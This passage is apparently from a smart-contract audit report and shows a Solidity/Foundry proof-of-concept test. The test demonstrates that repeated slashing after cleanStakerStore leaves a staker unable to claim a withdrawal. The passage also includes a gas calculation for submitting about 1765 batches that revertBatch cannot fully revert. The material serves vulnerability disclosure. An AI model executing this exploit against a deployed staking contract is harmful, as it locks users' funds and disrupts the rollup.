```solidity
    hevm.prank(alice);
    l1Staking.register{value: STAKING_VALUE}(aliceInfo.tmKey, aliceInfo.blsKey);

    // bob register
    Types.StakerInfo memory bobInfo = ffi.generateStakerInfo(bob);
    hevm.deal(bob, 5 * STAKING_VALUE);
    hevm.startPrank(bob);
    l1Staking.register{value: STAKING_VALUE}(bobInfo.tmKey, bobInfo.blsKey);
    hevm.stopPrank();

    // bob sequencer to slash
    uint256 bitmap = l1Staking.getStakerBitmap(alice);
    assertEq(bitmap, 4);
    address[] memory stakers = l1Staking.getStakersFromBitmap(bitmap);
    assertEq(stakers.length, 1);
    assertEq(stakers[0], alice);
    hevm.prank(l1Staking.rollupContract());
    l1Staking.slash(bitmap);

    // simulate expiring of withdrawalLockBlocks
    hevm.roll(block.number + l1Staking.withdrawalLockBlocks());

    // simulate someone calling _cleanStakerStore
    hevm.prank(l1Staking.owner());
    l1Staking.cleanStakerStore();

    hevm.prank(l1Staking.rollupContract());
    l1Staking.slash(bitmap);

    hevm.prank(bob);
    l1Staking.withdraw();

    hevm.roll(block.number + l1Staking.withdrawalLockBlocks() + 1);

    // this will revert, showing that users cannot withdraw their stake anymore
    hevm.prank(bob);
    l1Staking.claimWithdrawal(bob);
}
```

This will show that after executing the exploit, calls to `claimWithdrawal` will fail and `bob` cannot get his stake back.

In order to show that it is feasible to commit an amount of batches so that `revertBatch` cannot revert all of them, please execute the already existing test `test_revertBatch_succeeds` with `forge test --match-test test_revertBatch_succeeds -vvvv`. This will show that the call to `revertBatch` consumes about `34000 gas` to revert 2 batches. The block gas limit is `30_000_000`. This leads us to the following calculation:
`maxRevertableBatches = 30_000_000 / (34_000 / 2) ~= 1764 batches`. This means the malicious staker needs to just submit `1765 batches` to execute this attack which is totally feasible.

Note that the amount of batches will even naturally increase as honest stakers will also add batches, reducing the amount of batches the malicious staker needs to submit.
